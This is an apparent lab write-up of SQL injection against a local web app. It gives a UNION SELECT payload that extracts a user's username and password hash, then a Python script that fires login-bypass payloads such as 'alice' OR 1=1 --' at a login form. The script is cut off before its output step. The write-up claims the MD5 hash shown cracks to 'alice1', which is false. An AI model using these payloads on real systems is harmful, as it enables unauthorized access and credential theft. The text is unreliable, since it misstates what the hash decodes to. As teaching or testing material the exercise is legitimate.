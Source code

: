 3. **Effect of the Payload:**
   When this payload is inserted into the SQL query, it transforms the query to:
   ```sql
   SELECT ProductName, ProductType, Description, Price FROM products WHERE ProductName LIKE '%1' UNION SELECT 1, 2, username, password, 5 FROM users WHERE username='alice' -- %';
   ```
   The UNION SELECT part retrieves the `username` and `password` from the `users` table where the username is 'alice' and appends it to the results of the original query.

4. **Executing the Payload:**
   By submitting this payload through the search form, the application runs the modified query and includes Alice's username and password hash in the search results.

5. **Extracting the Information:**
   The script parses the HTML response to locate the table containing the search results. The relevant information (username and password hash) is then extracted and displayed.

#### Decrypting the Password
After obtaining the password hash `21232f297a57a5a743894a0e4a801fc3`, it was identified as an MD5 hash. Using an MD5 hash decrypter, the hash was decrypted to reveal the password `alice1`.

### Summary
The SQL injection worked by leveraging the UNION SELECT statement to retrieve sensitive information from the database. The extracted password hash was decrypted to reveal the actual password. This exercise highlights the importance of securing SQL queries against injection attacks and using secure hashing methods for storing passwords.


```python
import requests
from bs4 import BeautifulSoup

# URL of the login page
login_url = 'http://localhost:8000/login.php'

# List of payloads to understand the query structure
username_payloads = [
    "alice' --",
    "alice' /*",
    "alice' OR 1=1 --",
    "alice' OR 1=1 /*"
]

password_payload = "password"  # This can be any value since the payload is targeting username

# Create a session to persist cookies
session = requests.Session()

for username_payload in username_payloads:
    # Data to be sent in the POST request
    data = {
        'uid': username_payload,
        'password': password_payload
    }

    # Send the POST request to login
    response = session.post(login_url, data=data)

    # Parse the HTML response
    soup = BeautifulSoup(response.text, 'html.parser')

    # Extract the specific element's content
    marketing_div = soup.find('div', class_='row marketing')
    result_text = marketing_div.get_text(strip=True) if marketing_div else "No marketing div found"

    # Print the result for this payload
```